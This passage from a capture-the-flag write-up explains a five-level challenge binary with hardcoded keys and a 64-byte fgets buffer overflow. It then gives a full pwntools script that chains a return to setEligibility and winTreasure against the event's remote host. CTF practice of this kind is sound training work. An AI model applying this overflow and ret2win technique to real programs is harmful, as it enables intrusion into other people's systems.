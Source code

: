 * From all the function symbols above, we can see the pattern in the `main`function that is calling some functions from `unchanted_forest` (**level 1**) until `chamber_of_eternity` (level 5).
* What is every level/function does ? It just compared the key in each level. If it's correct, you can go to the next level until you reach out last level, which is level 5.
* After we successfully reach out to the last level, you see in the `chamber_of_eternity.c` is happen BOF vulnerability in `fgets` function. The buffer is only take 64 Bytes, but we can input until **500 Bytes**.
* So, the objective is very straighforward. After we at the last level, we can do ret2win attack to `winTreasure`function to get the flag.
* But, another problem is we can't directly get the flag until the `eligible` global variable is changed to **1**. How we can change it? Simple, we can jump to the `setEligibility` function first, and then jump to the `winTreasure` function.
* Here's my final exploit script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./vuln", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['winTreasure'])
set_eligibility = p64(elf.symbols['setEligibility'])

key_lvl1 = b"whisp3ring_w00ds"
key_lvl2 = b"sc0rching_dunes"
key_lvl3 = b"eldorian_ech0"
key_lvl4 = b"shadow_4byss"
key_lvl5 = b"3ternal_light"

payload = b"A"*(64 - len(key_lvl5))
payload += b"B"*8
payload += set_eligibility
payload += win_addr

# Send all valid keys got from check_key function.
is_remote = True

if is_remote:
    io = remote("treasure-hunt.ctf.pearlctf.in", 30008)
else:
    io = elf.process()

# Send the valid key according to it's level.
io.sendline(key_lvl1)
io.sendline(key_lvl2)
io.sendline(key_lvl3)
io.sendline(key_lvl4)

# Send the last valid key for level 5 and also the payload to win_addr.
io.sendline(key_lvl5 + payload)
io.interactive()
```
{% endcode %}
